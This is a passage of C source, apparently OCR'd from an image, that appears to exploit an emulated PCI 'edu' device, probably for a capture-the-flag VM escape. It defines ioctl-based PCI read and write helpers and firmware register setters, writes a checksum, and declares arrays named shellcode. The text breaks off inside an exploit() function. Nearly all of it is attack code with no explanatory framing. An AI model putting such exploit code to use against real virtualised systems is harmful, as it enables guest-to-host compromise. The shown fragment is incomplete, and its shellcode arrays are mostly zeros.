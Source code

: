 ```c
	ret = ioctl(fd, EDU_IOCTL_IDENT, &addr);
	if (ret) {
		printf("read ioctl error\n");
		exit(-1);
	}
	return val;
}

uint64_t pciwrite(uint64_t address, uint64_t value)
{
	uint64_t addr = address;
	uint64_t val = value;
	ret = ioctl(fd, EDU_IOCTL_LIVENESS, &addr);
	if (ret) {
		printf("write ioctl error\n");
	}
	return val;
}

uint64_t set_fw_w_addr(uint64_t value)
{
	return pciwrite(0x120, value);
}

uint64_t set_fw_len(uint64_t value)
{
	return pciwrite(0x138, value);
}

uint64_t write_byte(uint64_t value)
{
	return pciwrite(0xd8, value);
}

void write_checksum()
{
	set_fw_len(0x10000);
	for (size_t i = 0; i < CHECKSUM_LEN; i += 8) {
		set_fw_w_addr(0x4000 + i);
		write_byte(*(uint64_t *)&checksum[i]);
	}
}

#define SHELLCODE_LEN 128
uint8_t shellcode[SHELLCODE_LEN] = {0, 17, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 17, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0};

#define SHELLCODE_LEN1 128
uint8_t shellcode1[SHELLCODE_LEN1] = {0, 33, 32, 35, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 33, 32, 35, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0};


void exploit()
{
	write_checksum();

	for (size_t i = 0; i < SHELLCODE_LEN; i += 8)
```